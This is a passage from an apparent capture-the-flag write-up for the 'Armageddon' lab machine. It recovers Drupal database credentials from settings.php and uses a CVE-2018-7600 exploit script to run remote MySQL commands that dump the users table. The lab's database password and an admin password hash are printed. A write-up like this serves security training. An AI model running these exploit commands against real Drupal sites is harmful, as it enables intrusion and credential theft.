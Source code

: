 ## 4. Configuration File Analysis

Database credentials were discovered in the Drupal configuration file `/var/www/html/sites/default/settings.php`, a common location for Drupal database configuration.

<figure style="text-align: center;">
    <img src="screenshots/armageddon-05.png">
</figure>

## 5. Database Analysis & Credential Extraction

Due to TTY instability, the previously obtained exploit was leveraged to execute MySQL commands remotely:

```bash
python3 drupa7-CVE-2018-7600.py http://armageddon.htb -c "mysql -u drupaluser -pCQHEy@9M*m23gBVj -h localhost drupal -e 'SHOW DATABASES;'"
python3 drupa7-CVE-2018-7600.py http://armageddon.htb -c "mysql -u drupaluser -pCQHEy@9M*m23gBVj -h localhost drupal -e 'USE drupal; SHOW tables'"
python3 drupa7-CVE-2018-7600.py http://armageddon.htb -c "mysql -u drupaluser -pCQHEy@9M*m23gBVj -h localhost drupal -e 'USE drupal; SELECT * FROM users;'"
```

The database enumeration revealed user `brucetherealadmin` with the hashed password `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`.

<figure style="text-align: center;">
    <img src="screenshots/armageddon-06.png">
</figure>
